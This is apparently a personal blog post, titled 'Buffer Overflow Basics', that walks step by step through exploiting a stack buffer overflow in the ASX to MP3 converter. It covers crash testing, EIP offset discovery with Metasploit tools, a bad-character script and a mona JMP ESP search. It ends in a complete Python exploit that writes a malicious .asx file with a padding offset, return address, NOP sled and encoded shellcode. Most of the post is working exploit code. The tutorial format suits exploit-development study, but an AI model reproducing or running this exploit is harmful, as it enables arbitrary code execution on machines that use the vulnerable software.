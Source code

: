 ```yaml
---
layout: post
title:  "Buffer Overflow Basics"
description: Introduction to my blog
date:   2020-08-01 13:03:36 +0530
categories: bufferoverflow
---
```


### Here is one to exploit a buffer overflow vulnerability in the ASX to MP3 application.

## Spiking (Manual)
- As the application uses asx files as input, generated 5 files Initially to identify the length which the application rewrites the EIP and crashed.
- 30000 (Appcrash)  – 20000 (Appcrash) – 10000 (No Appcrash) – 15000 (No Crash) – 18000 (Crashes Again)
- The following trial and error method indicated that the application crashed between 15000 to 18000 characters input.

## Fuzzing
We can use the pattern create and pattern offset Metasploit tools to create a cyclical pattern and determine the exact offset of EIP

```
# /usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l 3000
```

Note that EIP is overwritten with 44386344
 
Second, use the Pattern Offset tool to determine the exact offset of EIP.

```
# /usr/share/metasploit-framework/tools/exploit/pattern_offset.rb -l 3000 -q 44386344
```


## Verifying EIP Control

Use the initial ‘A’ generation program, add 4 B's and use the same program to write 593 C's to a text file then load this into the converter application.

## Finding Bad Characters

Use the above code to identify bad character which needs to be removed from shellcode
```
import string  
  
f=open("basefile.txt", "r")  
if f.mode == 'r':  
    contents =f.read()  
	  
badchars = ("\x90\x01\x02\x03\x04\x05\x06\x07\x08\x09\x0a\x0b\x0c\x0d\x0e\x0f\x10\x11\x12\x13\x14\x15\x16\x17\x18\x19\x1a\x1b\x1c\x1d\x1e\x1f"  
"\x20\x21\x22\x23\x24\x25\x26\x27\x28\x29\x2a\x2b\x2c\x2d\x2e\x2f\x30\x31\x32\x33\x34\x35\x36\x37\x38\x39\x3a\x3b\x3c\x3d\x3e\x3f\x40"  
"\x41\x42\x43\x44\x45\x46\x47\x48\x49\x4a\x4b\x4c\x4d\x4e\x4f\x50\x51\x52\x53\x54\x55\x56\x57\x58\x59\x5a\x5b\x5c\x5d\x5e\x5f"  
"\x60\x61\x62\x63\x64\x65\x66\x67\x68\x69\x6a\x6b\x6c\x6d\x6e\x6f\x70\x71\x72\x73\x74\x75\x76\x77\x78\x79\x7a\x7b\x7c\x7d\x7e\x7f"  
"\x80\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f"  
"\xa0\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf"  
"\xc0\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf"  
"\xe0\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff")  
  
  
junk = "A" * 17403 + "BBBB" + badchars + "C" * (593-256)  
  
with open('payload.asx’,’w’) as file:  
    file.write(contents)  
    file.write(junk)  
 ```   
Badchars found: \x00 \x09 \x0A
 
## Find JMP ESP command with mona.py to insert as return address.
 
Run Mona to determine files available for use as JMP ESP call. This command allows us to reliably jump to the stack pointer held in the CPU. Note that MSA2Mfilter03.dll has both ASLR and REBASE listed as FALSE so it is a reliable location in memory to use for our JMP ESP command.


```
!mona  jmp -r esp -m MSA2Mfilter03.dll
```


![N|Solid](https://raw.githubusercontent.com/farhankn/farhankn.github.io/master/assets/buf1.png)
![N|Solid](https://raw.githubusercontent.com/farhankn/farhankn.github.io/master/assets/buf2.png)
![N|Solid](https://raw.githubusercontent.com/farhankn/farhankn.github.io/master/assets/buf3.png)
![N|Solid](https://raw.githubusercontent.com/farhankn/farhankn.github.io/master/assets/buf4.png)
![N|Solid](https://raw.githubusercontent.com/farhankn/farhankn.github.io/master/assets/buf5.png)


## Final Code with Padding and NOP Buffer
```
buf =  b""
buf += b"\xdb\xce\xd9\x74\x24\xf4\xb8\xd3\xce\x49\x36\x5b\x31"
buf += b"\xc9\xb1\x31\x31\x43\x18\x03\x43\x18\x83\xc3\xd7\x2c"
buf += b"\xbc\xca\x3f\x32\x3f\x33\xbf\x53\xc9\xd6\x8e\x53\xad"
buf += b"\x93\xa0\x63\xa5\xf6\x4c\x0f\xeb\xe2\xc7\x7d\x24\x04"
buf += b"\x60\xcb\x12\x2b\x71\x60\x66\x2a\xf1\x7b\xbb\x8c\xc8"
buf += b"\xb3\xce\xcd\x0d\xa9\x23\x9f\xc6\xa5\x96\x30\x63\xf3"
buf += b"\x2a\xba\x3f\x15\x2b\x5f\xf7\x14\x1a\xce\x8c\x4e\xbc"
buf += b"\xf0\x41\xfb\xf5\xea\x86\xc6\x4c\x80\x7c\xbc\x4e\x40"
buf += b"\x4d\x3d\xfc\xad\x62\xcc\xfc\xea\x44\x2f\x8b\x02\xb7"
buf += b"\xd2\x8c\xd0\xca\x08\x18\xc3\x6c\xda\xba\x2f\x8d\x0f"
buf += b"\x5c\xbb\x81\xe4\x2a\xe3\x85\xfb\xff\x9f\xb1\x70\xfe"
buf += b"\x4f\x30\xc2\x25\x54\x19\x90\x44\xcd\xc7\x77\x78\x0d"
buf += b"\xa8\x28\xdc\x45\x44\x3c\x6d\x04\x02\xc3\xe3\x32\x60"
buf += b"\xc3\xfb\x3c\xd4\xac\xca\xb7\xbb\xab\xd2\x1d\xf8\x44"
buf += b"\x99\x3c\xa8\xcc\x44\xd5\xe9\x90\x76\x03\x2d\xad\xf4"
buf += b"\xa6\xcd\x4a\xe4\xc2\xc8\x17\xa2\x3f\xa0\x08\x47\x40"
buf += b"\x17\x28\x42\x23\xf6\xba\x0e\x8a\x9d\x3a\xb4\xd2"



fuzz = "A" * 17424 + "\x73\xdf\x03\x10" + "FFFF" + "\x90" * 16 + buf +"C" * 300
with open('payload.asx','w') as file:
    file.write(fuzz)

```
